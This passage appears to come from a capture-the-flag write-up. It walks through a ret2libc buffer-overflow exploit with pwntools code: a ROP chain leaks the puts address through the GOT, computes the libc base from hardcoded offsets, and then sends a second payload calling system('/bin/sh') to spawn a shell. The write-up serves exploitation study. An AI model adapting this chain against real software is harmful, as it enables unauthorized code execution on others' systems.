 Now that we have the `pop rdi` gadget's address, we can perform a buffer overflow. So we want to pad with 264 bytes first, put the `puts` function's address into the `rdi` register and put it out into the screen using `puts`, then set the return address to the `vuln` function because we want have another payload to send. The constructed payload will be sent into the `vuln` function.

```python
# Payload to leak libc function
payload = flat({
    offset: [
        pop_rdi,  # Pop got.puts into RDI
        elf.got.puts,
        elf.plt.puts,  # Call puts() to leak the got.puts address
        elf.symbols.vuln  # Return to vuln (to overflow buffer with another payload)
    ]
})

# Send the payload
io.sendlineafter(b':P', payload)

io.recvlines(2)  # Blank line
```

After sending the payload, we can retrieve the `puts` function address and subtract the offset of `puts` with the received address of `puts` to get the `libc` base address. Now that we have the base address of `libc`, we can get the address to `system` and `/bin/sh` by adding the base address with the offset.

> Note: `plt` is the `got`'s procedure linkage table.

```python
# Retrieve got.puts address
got_puts = unpack(io.recv()[:6].ljust(8, b"\x00"))
info("leaked got_puts: %#x", got_puts)

# Subtract puts offset to get libc base
# readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep puts
libc_base = got_puts - 0x765f0
info("libc_base: %#x", libc_base)

# Add offsets to get system() and "/bin/sh" addresses
# readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
system_addr = libc_base + 0x48e50
info("system_addr: %#x", system_addr)

# strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
bin_sh = libc_base + 0x18a152
info("bin_sh: %#x", bin_sh)
```

After getting the address of `system` and `/bin/sh`, we can construct another payload to send to `vuln` (because the last payload put us back into `vuln`). The payload will first pad the payload, then load the `/bin/sh` string into the `rdi` register, then call the `system` function.

```python
# Payload to get shell: system('/bin/sh')
payload = flat({
    offset: [
        pop_rdi,
        bin_sh,
        system_addr
    ]
})

# Send the payload
io.sendline(payload)

# Got shell
```